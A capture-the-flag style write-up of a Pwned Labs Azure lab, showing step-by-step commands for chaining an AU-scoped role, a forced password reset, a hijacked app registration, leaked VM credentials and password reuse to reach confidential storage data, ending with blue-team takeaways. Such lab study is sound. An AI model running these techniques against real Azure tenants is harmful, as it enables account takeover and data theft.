This is my writeup for the lab **"Execute Azure Credential Shuffle to Achieve Objectives"** by [Pwned Labs](https://pwnedlabs.io/).

## The Scenario

A red team ran a password spray against Mega Big Tech and popped a handful of freshly created accounts: new hires with default passwords who haven't logged in yet. I've been handed creds for one of them (`dbuser@megabigtech.com`), and the objective is simple to state and open-ended to pull off: **get further into the Azure environment.**

The account itself looks like a nobody - no directory roles, nothing obvious. The whole lab is about proving that "no roles" doesn't mean "no access."

## The Strategy

The theme really is a _credential shuffle_ - I never find one god-mode key, I just keep hopping from identity to identity, and each hop widens my reach a little:

1. Log in with the throwaway account and realise it secretly holds an **Administrative Unit-scoped Authentication Administrator** role, invisible to normal enumeration.
2. Use that to **reset a user** inside the AU and log in as them.
3. That user **owns an app registration**, so I add my own secret and **become its service principal**.
4. The SP can read a **blob container**, which leaks VM credentials.
5. On the VM, a **leftover deployment script** hands over yet another credential.
6. That credential is **reused on an Entra account** with wider storage access, which finally reaches the objective data.

Six identities, one chain. Let's walk it.

---

## Getting a foothold (and fighting the throttle)

So for ARM (the resource side of Azure) I usually reach for the **`az` CLI**, and for Entra enumeration **AzureHound** fed into BloodHound is the easiest way to map out what's there. For this lab, though, I'm doing the directory enumeration with [Graphpython](https://github.com/mlcsec/Graphpython), a really handy Python toolkit for poking Microsoft Graph. First thing to know about it: it doesn't do username/password login. The intended way in is **device code auth**:

```
python Graphpython.py --command get-graphtokens
```

That prints a code, you punch it into `microsoft.com/devicelogin` in a browser, sign in as the compromised user, and Graphpython grabs the tokens.

Then I hit a wall. Every Graph call came back with:

```json
{
  "error": {
    "code": "TooManyRequests",
    "message": "Too many requests. Please try again later."
  }
}
```

And it _would not clear._ I waited. Thirty minutes later, still `429`. That's way past a normal throttle window, so I knew something else was going on, but I didnt know what.

Here's the thing I pieced together: my token was fine, graph throttles on a combination of **resource + user + app**. All my earlier failed login attempts had been racking up against _one specific app's_ bucket, the Microsoft Office client that Graphpython's device-code flow authenticates as. That bucket was cooked.

The giveaway: `az` worked perfectly the whole time. Because `az` hits **ARM** (`management.azure.com`), a completely different endpoint _and_ a different app identity (the Azure CLI client). Different bucket, clean counter.

So the fix was to just... use a different app. Mint a fresh Graph token through the Azure CLI app and feed it into Graphpython:

```bash
az login --use-device-code
az account get-access-token --resource-type ms-graph --query accessToken -o tsv
```



```
Graphpython ❯ set-token <that-token>
Graphpython ❯ get-currentuser
```

With a working token, I started where I'm most comfortable: the resource side. A quick `az account show` and `az resource list` to see what ARM had on offer... and it was a letdown. Nothing I could actually act on. So I turned to the directory (Entra) side with Graphpython, and that's where it got interesting.

---

## Wait, this account isn't nothing

Time to figure out who I actually am. `get-userprivileges` on my user:



Two group memberships - a "Default Directory" Microsoft 365 group (basically everyone) and a security group cheekily named **Yolo-MFA** (this was a group created by the lab administrators to not require the MFA on login) - and, importantly, **no directory roles at all.** The token's `wids` claim just showed `b79fbf4d-3ef9-4689-8143-76b194e85509`, which is the default "ordinary member user" marker. By every normal measure, this account is a nobody.

Except... it isn't. And this is the fun part.

Entra ID has a feature called **Administrative Units (AUs)**, think of them like OUs in on-prem AD. They let you scope a role to _a slice_ of the directory instead of the whole tenant. "You're Helpdesk Admin, but only for the Marketing department", that kind of thing.

But the catch is: a role that's **scoped to an AU does not show up** in the token's `wids`, in the directory-roles member list, _or_ in the user's `memberOf`. It lives on the AU itself. So an account can be holding real admin power while looking completely empty from the front.

So I checked the AUs

```
Graphpython ❯ list-administrativeunits
```



Four of them, but one description jumped out: **Megabigtech-UNIT1, "Scope to manage the authentication settings for the users belonging to the project."** "Manage authentication settings" is a _very_ loud hint.

Graphpython doesn't have a command to list an AU's scoped role members, so I asked my good friend Claude for the AZ cli command, because honestly I can't remember all the endpoints to enumerate with az cli:

```bash
az rest --method GET \
  --url "https://graph.microsoft.com/v1.0/directory/administrativeUnits/<unit1-id>/scopedRoleMembers" -o jsonc
```



There I am: my throwaway account is a **scoped role member** of UNIT1, holding role `ccb673b7-ab87-4fc0-87c5-39751a049539`. That ID is a legacy `directoryRole` id, so I resolved the name through the right endpoint:

```bash
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/ccb673b7-ab87-4fc0-87c5-39751a049539" -o jsonc
```

```json
"displayName": "Authentication Administrator",
"description": "Allowed to view, set and reset authentication method information for any non-admin user."
```

**Authentication Administrator, scoped to UNIT1.** Translation: I can reset the password / MFA of any _non-admin_ user who's a member of that AU.

---

## Taking over the user in the AU

So who's in UNIT1?

```
Graphpython ❯ get-administrativeunitmember --id <unit1-id>
```



One member: **Daiki Hiroko**, a "Mid Developer." A quick `get-userprivileges` on Daiki confirmed no directory roles, so they're a non-admin, which means my scoped Authentication Administrator role can touch them. (If Daiki had held any admin role, the reset would've been denied, that's the "non-admin" limit built into the role.)

Reset time: (Graphpython has an in-built functionality to change the user password and it sets the password to `NewUserSecret@Pass!`)

```
Graphpython ❯ update-userpassword --id <daiki-object-id>
[+] User password profile updated
```

```bash
az login -u Daiki.Hiroko@megabigtech.com -p 'NewUserSecret@Pass!'
```



One hop down.

---

## Daiki's hidden lever: an owned app

Now logged in as Daiki, I ran the same two-plane sweep I always do: ARM first, then Entra. On the resource side, az resource list finally returned something this time, a web app called megabigtech-dev.

```bash
{
  "name": "megabigtech-dev",
  "type": "Microsoft.Web/sites",
  "kind": "app",
  "resourceGroup": "megabigtech-dev_group",
  "identity": {
    "principalId": "7d59eb72-783f-40e1-a012-f211e72b71ea",
    "type": "SystemAssigned"
  }
}
```

Interesting, a web app with a System-Assigned managed identity attached. Thats usually a juicy pivot, if you can run code on the app, you can grab the identity's token and inherit its permissions. But a quick check of Daiki's role on it showed only Reader, no way to deploy or reach the Kudu console, so no code execution and no token to steal.

So I turned to the directory side and enumerated what Daiki owns: (I logged in the same way as I did with dbuser, getting the graph token from az cli)

```
Graphpython ❯ invoke-customquery --query "https://graph.microsoft.com/v1.0/me/ownedObjects"
```



Daiki **owns an app registration**, `daiki-appspn`. And here's the thing about owning an app: you can add credentials to it. An app registration has a service principal, that SP can hold its own permissions, and as the owner I can mint myself a secret and _become_ that SP.

```bash
az ad app credential reset --id <app-id> --append
```

That spits out a fresh client secret. Now authenticate _as the app_:

```bash
az login --service-principal -u <app-id> -p '<new-secret>' --tenant <tenant-id>
```

What can this SP do? `az resource list` came back empty, next I checked its role assignments:

```bash
az role assignment list --assignee 3626d80c-9f3b-48f9-a445-65a1ad9129af --all -o table
```



```
Storage Blob Data Reader  ->  storageqaenv / containers / general-purpose
```

A data-plane role, scoped to a _single blob container_. That's why it never showed in `az resource list`. Let's go read it.

---

## Following the loot trail

Next I started enumerating the container, I found multiple files, a file named 'Dev-cred.txt' stood out.

```bash
az storage blob list --account-name storageqaenv --container-name general-purpose --auth-mode login -o table
az storage blob download --account-name storageqaenv --container-name general-purpose --name Dev-cred.txt --auth-mode login --file Dev-cred.txt
```



`Dev-cred.txt` is exactly what it sounds like, a PowerShell snippet with credentials and a target:

```powershell
$passw = ConvertTo-SecureString "<devuser-password>" -AsPlainText -Force
$cred  = New-Object System.Management.Automation.PSCredential('devuser',$passw)
$vm    = New-PSSession -ComputerName 172.191.90.57 -Credential $cred ...
Enter-PSSession -Session $vm
```

Creds for `devuser` and a WinRM connection to a VM. From Linux, [evil-winrm](https://github.com/Hackplayers/evil-winrm) is the tool for this:

```bash
evil-winrm -i 172.191.90.57 -u devuser -p '<devuser-password>'
```

I'm on the box. A peek at IMDS (`169.254.169.254`) confirmed it's an Azure VM, **DevTeamVM**. I went looking for a managed identity to steal, but this VM didn't have one, and my identities had no rights to push a VM extension, so the cloud-side escalation was a dead end here. Back to basics: what's lying around on disk?

Azure VM extensions leave their artifacts on the filesystem, readable by anyone, no cloud permission required. The Custom Script Extension in particular caches whatever script it ran:

```powershell
type C:\Packages\Plugins\Microsoft.Compute.CustomScriptExtension\*\Downloads\*.ps1
```



Jackpot. A leftover deployment script with **another set of credentials**, `serveruser`, and a reference to an internal host (`192.168.10.8`). I couldn't WinRM straight to the internal box (workgroup TrustedHosts got in the way), I thought of escalating my privs in the machine, but then it was an azure lab, I opt for trying azure/entra specific techniques first. So I searched for `serveruser` in entra.

```
Graphpython ❯ get-user --id serveruser@megabigtech.com
```

It exists. And the password reused cleanly:

```bash
az login -u serveruser@megabigtech.com -p '<serveruser-password>'
```

Again, same steps. Checked resources first, then the assignments, and Bingo



`serveruser`'s access is the upgrade I needed: **Storage Blob Data Reader on the entire `storageqaenv` account**, not just one container like the SP had. That means every container is now readable.

---

## The crown jewels

```bash
az storage container list --account-name storageqaenv --auth-mode login -o table
```

Three containers this time: `general-purpose` (already seen), `server-files`, and the one that matters:

```
patent-documents
```

```bash
az storage blob list --account-name storageqaenv --container-name patent-documents --auth-mode login -o table
az storage blob download --account-name storageqaenv --container-name patent-documents --name "Granted Patent.txt" --auth-mode login --file "Granted Patent.txt"
```



And there's the prize. A nobody account with "no roles" walked all the way to the confidential patent data.

---

## Why this worked (and how to stop it)

Zoom out and the whole chain is a series of small, reasonable-looking misconfigurations that stack into a disaster:

```
plain member (no roles)
  -> Authentication Administrator, scoped to an Administrative Unit   [invisible to normal enum]
     -> reset the one non-admin user in that AU
        -> that user owns an app registration -> add a secret -> become the SP
           -> SP can read a blob container -> leaked VM creds
              -> dev VM -> leftover extension script -> more creds
                 -> password reused on an Entra account with wider storage access
                    -> confidential data
```

A few takeaways, blue-team hat on:

- **AU-scoped roles are a blind spot.** They don't appear in `wids`, directory-role membership, or `memberOf`. If you're auditing who can reset passwords, you _have_ to enumerate every AU's scoped role members too, or you'll miss accounts like this one. Treat Authentication Administrator (even scoped) as privileged.
- **App ownership is privilege.** A regular user owning an app registration means they can mint credentials and inherit whatever that SP can do. Review app owners like you review admins.
- **Secrets don't belong in blobs, VM extension scripts, or deployment snippets.** Every leaked credential here was just sitting in a file. Use Key Vault with references, and clean up extension artifacts.

Thanks for reading. This was a [Pwned Labs](https://pwnedlabs.io/) lab, and a great one for getting Administrative Units to finally click.
